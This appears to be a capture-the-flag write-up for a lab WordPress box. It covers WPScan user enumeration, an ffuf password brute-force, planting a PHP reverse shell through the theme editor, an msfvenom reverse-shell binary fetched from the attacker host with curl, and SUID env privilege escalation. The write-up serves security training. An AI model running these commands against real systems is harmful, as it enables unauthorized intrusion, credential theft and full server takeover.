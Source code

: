 # Initial scans
* There is only port 80 open
* Dirb reports that there is a wordpress installation on the webserver. We can use WpScan
```
wpscan --url http://172.17.0.2/wordpress/ --enumerate vp,u,vt,tt --verbose
```
* From the output we determine that there's a user named mario. We can attempt to brute force their login. First record the POST request to the /wp-admin endpoint to Burp Suite, then save it out as a request file, then use Ffuf tool to fuzz
```
ffuf -request request.txt -w /usr/share/wordlists/rockyou.txt -request-proto http
```
* We then have the credential pair `mario:love`
# Initial access
* We use these creds to login to the Wordpress app, and use the theme editor to access the PHP code for the twentytwentytwo theme. Let's go ahead and replace the functions.php page with the contents of a PHP reverse shell payload
```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/functions.php
```
* we'll use the following msfvenom command to create a reverse shell binary to upload to the target
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f elf -o reverse.elf
```
* then upload the file via a webshell
```
curl -O http://172.17.0.1/reverse.elf
chmod %2bx reverse.elf
```
# Privilege escalation
* Once on the box, we can partially upgrade our shell by using the Script command
```
script /dev/null -qc /bin/bash
```
* We find that the Env binary is set as SUID
```
env /bin/bash -p
```
Finis

